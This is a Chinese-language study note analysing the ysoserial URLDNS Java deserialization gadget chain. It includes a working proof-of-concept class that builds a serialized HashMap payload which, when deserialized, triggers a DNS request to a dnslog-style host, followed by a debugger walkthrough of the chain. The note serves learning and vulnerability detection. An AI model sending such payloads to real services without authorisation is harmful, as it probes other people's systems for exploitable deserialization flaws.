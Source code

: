 # URLDNS链分析

urldns是`ysoserial` 中的一个利用链,并不像cc链那样是一个第三方组件

urldns的优势:

- 不限制jdk版本，使用Java内置类，对第三方依赖没有要求
- 目标无回显，可以通过DNS请求来验证是否存在反序列化漏洞
- URLDNS利用链，只能发起DNS请求，并不能进行其他利用

在ysoserial中给出的gadget:

```java
*   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

## 分析

调试时使用的poc

```java
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class test03 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        
        HashMap hashMap = new HashMap();
        Class<?> aClass = Class.forName("java.net.URL");
        Constructor<?> constructor = aClass.getConstructor(String.class);
        URL url = (URL) constructor.newInstance("http://fe228e81.ipv6.1433.eu.org.");
				//获取URL类中的hashCode属性
        Field hashCode = aClass.getDeclaredField("hashCode");
				//绕过权限限制
        hashCode.setAccessible(true);
				//设置hashCode的值
        hashCode.set(url,123);
				//添加到HashMap中
        hashMap.put(url,123);
				//设置hashCode的值
        hashCode.set(url,-1);

        FileOutputStream fileOutputStream = new FileOutputStream("./urldns.ser");
        ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);

        outputStream.writeObject(hashMap);
        outputStream.close();
        fileOutputStream.close();

        FileInputStream fileInputStream = new FileInputStream("./urldns.ser");
        ObjectInputStream inputStream = new ObjectInputStream(fileInputStream);
        inputStream.readObject();
        inputStream.close();
        fileInputStream.close();

    }
}
```

1. 为什么需要两次赋值URL中的hashCode属性

第一次赋值,为了防止在序列化前就发送dnslog请求

当没有改变hashCode属性时,部分代码:

```java
				HashMap hashMap = new HashMap();

        Class<?> aClass = Class.forName("java.net.URL");
        Constructor<?> constructor = aClass.getConstructor(String.class);
        URL url = (URL) constructor.newInstance("http://91197edd.ipv6.1433.eu.org");

        Field hashCode = aClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
//        hashCode.set(url,-1);
        System.out.println(url.hashCode());
        hashMap.put(url,123);
```

在URL#hashCode方法中打断点

![Untitled](URLDNS%E9%93%BE%E5%88%86%E6%9E%90%2027a14799139b4b108cfb60b9ff46a64f/Untitled.png)

hashCode的初始值还是为-1

继续调试

![Untitled](URLDNS%E9%93%BE%E5%88%86%E6%9E%90%2027a14799139b4b108cfb60b9ff46a64f/Untitled%201.png)

`handler` 在下面赋值

![Untitled](URLDNS%E9%93%BE%E5%88%86%E6%9E%90%2027a14799139b4b108cfb60b9ff46a64f/Untitled%202.png)

URLStreamHandler

<aside>
⚠️ 在编程中，transient关键字通常用于Java中的对象序列化。它用于指示某个成员变量不应该被序列化，即在将对象写入文件或网络传输时，该成员变量的值不应该被保存。这通常用于指定敏感信息，如密码或加密密钥，以防止它们被意外地保存或传输。在其他编程语言中也可能会有类似的用法。重新生成



跟入URLStreamHandler#hashCode方法,传入this参数

```java
protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }
```

这里就是请求dns了

1. 序列化后

这里序列化的是一个`HashMap`对象,只有一对键值对,键为URL对象,里面的链接为dnslog地址,值为随意

![Untitled](URLDNS%E9%93%BE%E5%88%86%E6%9E%90%2027a14799139b4b108cfb60b9ff46a64f/Untitled%203.png)

在readObject打断点,跟进去的是HashMap里的readObject方法

![Untitled](URLDNS%E9%93%BE%E5%88%86%E6%9E%90%2027a14799139b4b108cfb60b9ff46a64f/Untitled%204.png)

跟到下面位置

![Untitled](URLDNS%E9%93%BE%E5%88%86%E6%9E%90%2027a14799139b4b108cfb60b9ff46a64f/Untitled%205.png)

进入到hash函数

![Untitled](URLDNS%E9%93%BE%E5%88%86%E6%9E%90%2027a14799139b4b108cfb60b9ff46a64f/Untitled%206.png)

这里的Object参数就是URL对象

在这里调用的就是URL#hashCode方法

继续跟进

![Untitled](URLDNS%E9%93%BE%E5%88%86%E6%9E%90%2027a14799139b4b108cfb60b9ff46a64f/Untitled%207.png)

由于这里的hashCode属性通过反射设置过值为-1,所以会进入到handler.hashCode函数中,这就跟上面一样了